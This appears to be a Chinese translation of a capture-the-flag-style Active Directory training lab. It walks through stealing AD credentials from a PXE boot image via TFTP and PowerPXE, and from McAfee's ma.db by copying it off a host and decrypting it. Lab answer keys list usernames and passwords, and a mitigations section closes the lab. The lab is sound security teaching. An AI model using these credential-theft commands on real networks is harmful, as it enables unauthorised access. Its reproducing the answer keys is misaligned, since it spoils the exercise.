我们需要执行的第一步是使用 TFTP 下载 BCD 文件，以读取 MDT 服务器的配置。TFTP 比 FTP 要麻烦一些，因为我们不能列出文件。相反，我们发送一个文件请求，服务器会通过 UDP 连接回我们以传输文件。因此，我们在指定文件和文件路径时必须准确无误。BCD 文件始终位于 MDT 服务器上的 /Tmp/ 目录中。我们可以在 SSH 会话中使用以下命令启动 TFTP 传输：

```shell
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

您必须使用 `nslookup thmmdt.za.tryhackme.com` 查找 THMMDT IP。恢复 BCD 文件后，我们将使用 [Powerpxe](https://github.com/wavestone-cdt/powerpxe) 读取其内容。Powerpxe 是一个 PowerShell 脚本，可自动执行此类攻击，但结果通常各不相同，因此最好还是手动执行。我们将使用 powerpxe 的 Get-WimFile 功能从 BCD 文件中恢复 PXE 启动映像的位置：

```shell
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM 文件是 Windows 映像格式 (WIM) 的可启动映像。现在我们已经有了 PXE 引导映像的位置，可以再次使用 TFTP 下载该映像：

```shell
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```

由于您下载的是可完全引导和配置的 Windows 映像，因此下载需要一段时间。在等待过程中，不妨伸伸腿，喝杯水。

### 从 PXE 启动映像恢复凭证

既然我们已经恢复了 PXE 启动镜像，就可以外泄存储的凭据了。需要注意的是，我们可以实施多种攻击。我们可以注入一个本地管理员用户，这样镜像一启动，我们就有了管理员访问权限；我们可以安装镜像，让机器加入域。如果你想了解更多有关这些攻击的信息，可以阅读 [Taking over Windows Workstations thanks to LAPS and PXE](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/) 。本练习将重点讨论一种简单的攻击，即试图窃取凭据。

我们将再次使用 powerpxe 恢复凭据，但您也可以通过提取映像并查找 bootstrap.ini 文件手动完成此步骤，此类凭据通常存储在该文件中。要使用 powerpxe 从引导文件中恢复凭据，请运行以下命令：

```shell
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

如您所见，powerpxe 能够恢复 AD 凭据。现在我们又有了一套可以使用的 AD 域凭据！

:::info Answer the questions below

什么 Microsoft 工具用于在组织中创建和托管 PXE 启动映像？

```plaintext
Microsoft Deployment Toolkit
```

从 MDT 服务器恢复文件使用什么网络协议？

```plaintext
TFTP
```

与存储在 PXE 启动映像中的帐户关联的用户名是什么？

```plaintext
svcMDT
```

与存储在 PXE 启动映像中的帐户关联的密码是什么？

```plaintext
PXEBootSecure1@
```

:::

## Configuration Files

在本网络中，我们要探索的最后一个枚举途径是配置文件。假设你很幸运地造成了漏洞，从而访问了组织网络上的一台主机。在这种情况下，配置文件是尝试恢复 AD 凭据的绝佳途径。根据被入侵主机的不同，各种配置文件都可能具有枚举价值：

- 网络应用程序配置文件
- 服务配置文件
- 注册表键值
- 集中部署的应用程序

一些枚举脚本（如 [Seatbelt](https://github.com/GhostPack/Seatbelt)）可用于自动执行此过程。

### 配置文件凭证

不过，在本任务中，我们将重点关注从集中部署的应用程序中恢复凭证。通常，这些应用程序在安装和执行阶段都需要一种方法来对域进行身份验证。McAfee Enterprise Endpoint Security 就是此类应用程序的一个例子，企业可将其用作安全端点检测和响应工具。

McAfee 将安装过程中用于连接回协调器的凭证嵌入一个名为 ma.db 的文件中。该数据库文件可通过对主机的本地访问来检索和读取，以恢复相关的 AD 服务帐户。在本练习中，我们将再次使用 THMJMP1 上的 SSH 访问。

ma.db 文件存储在一个固定位置：

```shell
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db
               1 File(s)        120,832 bytes
               2 Dir(s)  39,426,285,568 bytes free
```

我们可以使用 SCP 将 ma.db 复制到我们的 AttackBox：

```shell
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

要读取数据库文件，我们将使用名为 sqlitebrowser 的工具。我们可以使用以下命令打开数据库：

```shell
thm@thm:# sqlitebrowser ma.db
```

使用 sqlitebrowser，我们将选择 "浏览数据" 选项并关注 AGENT_REPOSITORIES 表：

<div style={{textAlign:'center'}}>



</div>

我们对第二个条目特别感兴趣，重点是 DOMAIN、AUTH_USER 和 AUTH_PASSWD 字段条目。请注意这些条目中存储的值。但是，AUTH_PASSWD 字段是加密的。幸运的是，McAfee 使用已知密钥对该字段进行了加密。因此，我们将使用下面的旧 python2 脚本来解密密码。该脚本已作为可下载的任务文件提供，或者在 AttackBox 上，可以在 `/root/Rooms/BreachingAD/task7/` 目录中找到。

:::tip

我们在这里使用的工具已经很老了。它使用 Python v2，依赖于一个老式密码库。如果无法在自己的虚拟机上运行脚本，请使用 AttackBox。不过，最近对该应用程序进行了更新，以确保它也能在 Python3 上运行，您可以在此处下载最新版本： `https://github.com/funoverip/mcafee-sitelist-pwd-decryption`

:::

您需要解压缩 mcafee-sitelist-pwd-decryption.zip 文件：

```shell
thm@thm:~/root/Rooms/BreachingAD/task7/$ unzip mcafeesitelistpwddecryption.zip
```

通过向脚本提供经过 base64 编码和加密的密码，脚本将提供解密后的密码：

```shell
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```

现在，我们再次获得了一组可用于进一步枚举的 AD 域凭据！这只是从配置文件中恢复凭证的一个例子。如果你能在一台主机上站稳脚跟，请务必遵循一套详细而完善的方法，确保从主机上恢复所有战利品，包括凭证和其他可能存储在配置文件中的敏感信息。

:::info Answer the questions below

什么类型的文件通常包含主机上存储的凭据？

```plaintext
Configuration files
```

用于存储配置（包括用于连接到 Orchestrator 的凭据）的 McAfee 数据库的名称是什么？

```plaintext
ma.db
```

该数据库中的哪个表存储协调器的凭据？

```plaintext
AGENT_REPOSITORIES
```

帐户的用户名是什么？ AD 与 McAfee 服务关联的

```plaintext
svcAV
```

帐户的密码是什么？ AD 与 McAfee 服务关联的

```plaintext
MyStrongPassword!
```

:::

## Conclusion

要攻破 AD 域，可以遵循大量攻击途径。我们介绍了在该网络的红队演习中常见的一些攻击途径。由于攻击面非常大，恢复第一组 AD 证书的新途径不断被发现。要找到最初的那对凭证，需要建立适当的枚举方法并不断更新。

### 缓解措施

在缓解措施方面，组织可以采取一些步骤：

- 用户意识和培训--网络安全链中最薄弱的环节几乎总是用户。对用户进行培训，让他们意识到应该谨慎披露凭证等敏感信息，不要轻信可疑电子邮件，这样就能减少攻击面。
- 限制 AD 域服务和应用程序的在线暴露 - 并非所有应用程序都必须可以从互联网访问，尤其是那些支持 NTLM 和 LDAP 身份验证的应用程序。相反，应将这些应用程序放在可通过 VPN 访问的内网中。VPN 可以支持多因素身份验证，以提高安全性。
- 执行网络访问控制（NAC）--NAC 可以防止攻击者在网络上连接恶意设备。不过，这需要付出相当大的努力，因为合法设备必须被列入允许列表。
- 执行 SMB 签名 - 通过执行 SMB 签名，SMB 中继攻击就不可能发生。
- 遵循最小权限原则 - 在大多数情况下，攻击者都能恢复一组 AD 域凭据。通过遵循最小权限原则，尤其是用于服务的凭据，可以大大降低这些凭据被泄露的相关风险。

既然我们已经攻破了 AD，下一步就是对 AD 进行枚举，以更好地了解域结构，并识别可被利用的潜在错误配置。这将在下一个房间中介绍。记住要清除 DNS 配置！
